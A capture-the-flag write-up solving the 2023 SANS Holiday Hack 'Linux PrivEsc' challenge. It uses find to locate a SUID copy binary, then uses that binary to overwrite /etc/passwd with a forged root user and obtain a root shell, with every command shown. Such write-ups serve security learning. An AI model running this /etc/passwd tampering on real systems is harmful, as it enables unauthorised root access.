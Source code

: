 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Linux PrivEsc
Difficulty: :christmas_tree::christmas_tree::christmas_tree:    
Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

### Hints
#### Linux Privilege Escalation Techniques
*From: Rose Mold*  
There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.
#### Linux Command Injection
*From: Rose Mold*  
Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

### Solution
Knowing that the challenge is related to Linux Privilege Escalation, a common reconnaissance step is to list SUID executables, which in this case highlights an uncommon one called simplecopy:
```bash
elf@72cacccd1fe6:~$ find / -type f -perm -04000 -ls 2>/dev/null
  1312417     84 -rwsr-xr-x   1 root     root        85064 Nov 29  2022 /usr/bin/chfn
  1312423     52 -rwsr-xr-x   1 root     root        53040 Nov 29  2022 /usr/bin/chsh
  1312541     56 -rwsr-xr-x   1 root     root        55528 May 30  2023 /usr/bin/mount
  1312546     44 -rwsr-xr-x   1 root     root        44784 Nov 29  2022 /usr/bin/newgrp
  1312620     68 -rwsr-xr-x   1 root     root        67816 May 30  2023 /usr/bin/su
  1312484     88 -rwsr-xr-x   1 root     root        88464 Nov 29  2022 /usr/bin/gpasswd
  1312645     40 -rwsr-xr-x   1 root     root        39144 May 30  2023 /usr/bin/umount
  1312557     68 -rwsr-xr-x   1 root     root        68208 Nov 29  2022 /usr/bin/passwd
  1457015     20 -rwsr-xr-x   1 root     root        16952 Dec  2 22:17 /usr/bin/simplecopy
```
The `simplecopy` executable looks like a standard `cp` command, but eventually allowing to overwrite root-owned files. One escalation path would be to overwrite `/etc/passwd`, adding a user with root privileges for which the attacker knows all credentials. First thing is to generate the passwd content:
```bash
thedead@dellian:~/hhc2023/Linux PrivEsc$ openssl passwd -1 -salt kringle con2023
$1$kringle$M.uL5k/EEbyamRF6aMNJz/
```
Then add the new user `breakstuff` it to the `/etc/passwd` file:
```bash
elf@72cacccd1fe6:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
# Output removed to shorten report
elf:x:1000:1000::/home/elf:/bin/sh
elf@72cacccd1fe6:~$ cp /etc/passwd passwd_tamper
elf@72cacccd1fe6:~$ echo 'breakstuff:$1$kringle$M.uL5k/EEbyamRF6aMNJz/:0:0:root:/root:/bin/bash' >> passwd_tamper
elf@72cacccd1fe6:~$ /usr/bin/simplecopy passwd_tamper /etc/passwd
```
Lastly login as `breakstuff` to gain root privileges and... `runmetoanswer`!
```bash
elf@72cacccd1fe6:~$ su breakstuff
Password:
root@72cacccd1fe6:/home/elf# cd
root@72cacccd1fe6:~# ls
runmetoanswer
root@b5bd66274d00:~# ./runmetoanswer
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```